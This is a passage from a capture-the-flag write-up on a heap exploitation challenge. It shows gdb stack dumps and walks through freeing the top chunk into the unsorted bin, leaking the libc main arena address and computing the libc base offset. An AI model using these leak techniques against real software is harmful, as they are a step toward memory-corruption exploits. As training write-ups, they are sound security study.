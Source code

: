 We can see that the top chunk is freed and goes into unsorted bin. At here, the program write libc main arena to that chunk so we can see stuff at that freed top chunk. The address for the `malloc(0x1000)` is placed in the next page and saved in the stack like this:

```
0x00007ffe68571be0│+0x0000: "B=malloc(4096)\n"   ← $rax, $rsp, $rdi
0x00007ffe68571be8│+0x0008: "(4096)\n"
0x00007ffe68571bf0│+0x0010: 0x0000564641e852a0  →  0x0000000000000000    <-- Chunk index 0
0x00007ffe68571bf8│+0x0018: 0x0000564641ea6010  →  0x0000000000000000    <-- Chunk index 1
0x00007ffe68571c00│+0x0020: 0x0000000000000000
0x00007ffe68571c08│+0x0028: 0x0000000000000000
0x00007ffe68571c10│+0x0030: 0x0000000000000000
0x00007ffe68571c18│+0x0038: 0x0000000000000000
```

So now, let’s leak the libc main arena address in the freed top chunk first. To do that, we just simply malloc an amount which is smaller than freed top chunk (which turn into unsorted bin) because malloc() doesn’t remove data on that chunk (just free() does), and then print the libc main arena address out (Address changed because I rerun it):

```
malloc(2, 0x100)
puts(2)
```

Running it and we get the libc main arena address leaked:

![libc_main_arena_address_leaked.png](/static/images/mocsctf-2022/libc_main_arena_address_leaked.png)

Stack contain the chunk with index 2:

```
0x00007ffe5fd1bc90│+0x0000: "puts(C)\n"  ← $rax, $rsp, $rdi
0x00007ffe5fd1bc98│+0x0008: 0x00000a2936353200
0x00007ffe5fd1bca0│+0x0010: 0x0000555ddbd4f2a0  →  0x0000000000000000    <-- Chunk index 0
0x00007ffe5fd1bca8│+0x0018: 0x0000555ddbd70010  →  0x0000000000000000    <-- Chunk index 1
0x00007ffe5fd1bcb0│+0x0020: 0x0000555ddbd4f2c0  →  0x00007f416cfea1e0    <-- Chunk index 2
0x00007ffe5fd1bcb8│+0x0028: 0x0000000000000000
0x00007ffe5fd1bcc0│+0x0030: 0x0000000000000000
0x00007ffe5fd1bcc8│+0x0038: 0x0000000000000000
```

Compared with chunk 2 data and we know it’s correct. Now we will do a simple calculation to get the offset between that leaked address with libc base address. We can get libc base address using `vmmap` (for gdb-gef I think so)

![vmmap_libc_base.png](/static/images/mocsctf-2022/vmmap_libc_base.png)

So the libc base address is `0x00007f416cdfe000`, the leaked address is `0x00007f416cfea1e0`, the offset will be:

```
0x00007f416cfea1e0 - 0x00007f416cdfe000 = 0x1ec1e0
```

So every time we get the leaked libc main arena address, we just subtract with this offset and we have the libc base address. That’s great for now! Let’s move on the second stage: Free 2 small chunks!
